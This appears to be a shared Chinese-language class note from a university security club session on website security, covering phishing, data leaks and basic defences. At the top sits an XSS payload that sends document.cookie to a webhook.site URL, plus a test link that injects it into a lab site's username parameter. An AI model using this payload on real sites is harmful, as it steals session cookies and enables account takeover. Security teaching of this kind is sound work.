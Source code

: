 
```javascript=
<script>new Image().src="WEBHOOK?data="+document.cookie;</script>
```
[測試連結](http://vullab.feifei.tw/index.php?username=%3Cscript%3Enew+Image%28%29.src%3D%22%5BWEBHOOK%5D%28https%3A%2F%2Fwebhook.site%2F040571c1-9359-411e-97f7-2cc753840bc0%29%3Fdata%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E)

# -----社課提供共筆-----

# 網站安全共筆

[toc]

## 課程資訊

> 20231104 @台科資安社

[簽到表單](https://forms.gle/jh53avmsE9YyWzN19)

---
 
## 如何選擇網站作為攻擊目標？

:::danger
不要去隨意攻打沒有經過對方同意的網站
:::

### 什麼是資料外洩？

![image.png](https://hackmd.io/_uploads/S18ShMXma.png)

以上這些都是個人資料，但我們都是平民老百姓，為什麼駭客要攻擊我們QQ

駭客可能搜集我們的資訊，把我們當跳板，從而去得到他們想要的資訊

### 駭客是如何收集到你的資訊？


> 點選某個網站卻點到釣魚網站、下載遊戲下載到病毒、打開郵件其實是釣魚信件、下載到惡意檔案

可能使用社交工程 (Social Attack) 等類似釣魚的方式進行攻擊，可能會偽造如 Facebook 登入頁面等方式，讓人誤植帳號密碼

### 我們要如何避免被駭客打？

- 確認網域為正確，如 faceb0ok.com
- 雙重認證 MFA
- 使用 [VirusTotal](https://www.virustotal.com/gui/) 分析網站、檔案等是否安全
- 自行分析惡意程式、網站，可以使用虛擬機等

### 分析惡意網站
- 打開 Chrome Devtools (F12) (開發者工具)
    - 或右鍵 -> 檢查
